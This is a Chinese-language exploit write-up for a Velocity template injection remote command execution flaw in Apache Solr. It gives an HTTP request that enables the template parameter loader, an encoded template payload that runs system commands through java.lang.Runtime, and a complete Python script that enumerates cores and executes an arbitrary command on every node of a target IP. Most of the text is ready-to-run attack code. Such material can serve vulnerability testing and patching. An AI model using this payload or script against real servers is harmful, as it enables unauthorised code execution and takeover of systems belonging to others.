

Apache Solr Velocity模版注入远程命令执行
========================================

一、漏洞简介
------------

该漏洞的产生是由于两方面的原因：

1、当攻击者可以直接访问Solr控制台时，可以通过发送类似/节点名/config的POST请求对该节点的配置文件做更改。2、2Apache
Solr默认集成VelocityResponseWriter插件，在该插件的初始化参数中的paramsresource.loader.enabled这个选项是用来控制是否允许参数资源加载器在Solr请求参数中指定模版，默认设置是false。当设置paramsresource.loader.enabled为true时，将允许用户通过设置请求中的参数来指定相关资源的加载，这也就意味着攻击者可以通过构造一个具有威胁的攻击请求，在服务器上进行命令执行。

二、漏洞影响
------------

经过测试，目前影响Apache Solr 8.1.1到8.2.0版本。

推测影响全版本Apache Solr。

三、复现过程
------------

### 手动检测

手动检测访问http://www.0-sec.org/8983/solr/\#/进入主界面，单击左侧的Core
Selector查看集合名称

#### 1、post发送请求

    POST /solr/test/config HTTP/1.1
    Host: solr:8983
    Content-Type: application/json
    Content-Length: 259

    {
      "update-queryresponsewriter": {
        "startup": "lazy",
        "name": "velocity",
        "class": "solr.VelocityResponseWriter",
        "template.base.dir": "",
        "solrresource.loader.enabled": "true",
        "paramsresource.loader.enabled": "true"
      }
    }

#### 2、执行系统命令

    GET /solr/test/select?q=1&&wt=velocity&v.template=custom&v.template.custom=%23set($x=%27%27)+%23set($rt=$x.class.forName(%27java.lang.Runtime%27))+%23set($chr=$x.class.forName(%27java.lang.Character%27))+%23set($str=$x.class.forName(%27java.lang.String%27))+%23set($ex=$rt.getRuntime().exec(%27id%27))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end HTTP/1.1
    Host: localhost:8983

### 使用脚本检测

    auth: @l3_W0ng
    version: 1.0
    function: Apache Solr RCE via Velocity template
    usage: python3 script.py ip [port [command]]
                   default port=8983
                   default command=whoami
    note:
    Step1: Init Apache Solr Configuration
    Step2: Remote Exec in Every Solr Node
    """

    import sys
    import json
    import time
    import requests

    class initSolr(object):

        timestamp_s = str(time.time()).split('.')
        timestamp = timestamp_s[0] + timestamp_s[1][0:-3]

        def __init__(self, ip, port):
            self.ip = ip
            self.port = port

        def get_nodes(self):
            payload = {
                '_': self.timestamp,
                'indexInfo': 'false',
                'wt': 'json'
            }
            url = 'http://' + self.ip + ':' + self.port + '/solr/admin/cores'

            try:
                nodes_info = requests.get(url, params=payload, timeout=5)
                node = list(nodes_info.json()['status'].keys())
                state = 1
            except:
                node = ''
                state = 0

            if node:
                return {
                    'node': node,
                    'state': state,
                    'msg': 'Get Nodes Successfully'
                }
            else:
                return {
                    'node': None,
                    'state': state,
                    'msg': 'Get Nodes Failed'
                }

        def get_system(self):
            payload = {
                '_': self.timestamp,
                'wt': 'json'
            }
            url = 'http://' + self.ip + ':' + self.port + '/solr/admin/info/system'
            try:
                system_info = requests.get(url=url, params=payload, timeout=5)
                os_name = system_info.json()['system']['name']
                os_uname = system_info.json()['system']['uname']
                os_version = system_info.json()['system']['version']
                state = 1

            except:
                os_name = ''
                os_uname = ''
                os_version = ''
                state = 0

            return {
                'system': {
                    'name': os_name,
                    'uname': os_uname,
                    'version': os_version,
                    'state': state
                }
            }

    class apacheSolrRCE(object):

        def __init__(self, ip, port, node, command):
            self.ip = ip
            self.port = port
            self.node = node
            self.command = command
            self.url = "http://" + self.ip + ':' + self.port + '/solr/' + self.node

        def init_node_config(self):
            url = self.url + '/config'
            payload = {
                'update-queryresponsewriter': {
                    'startup': 'lazy',
                    'name': 'velocity',
                    'class': 'solr.VelocityResponseWriter',
                    'template.base.dir': '',
                    'solrresource.loader.enabled': 'true',
                    'paramsresource.loader.enabled': 'true'
                }
            }
            try:
                res = requests.post(url=url, data=json.dumps(payload), timeout=5)
                if res.status_code == 200:
                    return {
                        'init': 'Init node config successfully',
                        'state': 1
                    }
                else:
                    return {
                        'init': 'Init node config failed',
                        'state': 0
                    }
            except:
                return {
                    'init': 'Init node config failed',
                    'state': 0
                }

        def rce(self):
            url = self.url + ("/select?q=1&&wt=velocity&v.template=custom&v.template.custom="
                              "%23set($x=%27%27)+"
                              "%23set($rt=$x.class.forName(%27java.lang.Runtime%27))+"
                              "%23set($chr=$x.class.forName(%27java.lang.Character%27))+"
                              "%23set($str=$x.class.forName(%27java.lang.String%27))+"
                              "%23set($ex=$rt.getRuntime().exec(%27" + self.command +
                              "%27))+$ex.waitFor()+%23set($out=$ex.getInputStream())+"
                              "%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end")
            try:
                res = requests.get(url=url, timeout=5)
                if res.status_code == 200:
                    try:
                        if res.json()['responseHeader']['status'] == '0':
                            return 'RCE failed @Apache Solr node %s\n' % self.node
                        else:
                            return 'RCE failed @Apache Solr node %s\n' % self.node
                    except:
                        return 'RCE Successfully @Apache Solr node %s\n %s\n' % (self.node, res.text.strip().strip('0'))

                else:
                    return 'RCE failed @Apache Solr node %s\n' % self.node
            except:
                return 'RCE failed @Apache Solr node %s\n' % self.node

    def check(ip, port='8983', command='whoami'):
        system = initSolr(ip=ip, port=port)
        if system.get_nodes()['state'] == 0:
            print('No Nodes Found. Remote Exec Failed!')
        else:
            nodes = system.get_nodes()['node']
            systeminfo = system.get_system()
            os_name = systeminfo['system']['name']
            os_version = systeminfo['system']['version']
            print('OS Realese: %s, OS Version: %s\nif remote exec failed, '
                  'you should change your command with right os platform\n' % (os_name, os_version))

            for node in nodes:
                res = apacheSolrRCE(ip=ip, port=port, node=node, command=command)
                init_node_config = res.init_node_config()
                if init_node_config['state'] == 1:
                    print('Init node %s Successfully, exec command=%s' % (node, command))
                    result = res.rce()
                    print(result)
                else:
                    print('Init node %s Failed, Remote Exec Failed\n' % node)

    if __name__ == '__main__':
        usage = ('python3 script.py ip [port [command]]\n '
                 '\t\tdefault port=8983\n '
                 '\t\tdefault command=whoami')

        if len(sys.argv) == 4:
            ip = sys.argv[1]
            port = sys.argv[2]
            command = sys.argv[3]
            check(ip=ip, port=port, command=command)
        elif len(sys.argv) == 3:
            ip = sys.argv[1]
            port = sys.argv[2]
            check(ip=ip, port=port)
        elif len(sys.argv) == 2:
            ip = sys.argv[1]
            check(ip=ip)
        else:
            print('Usage: %s:\n' % usage)
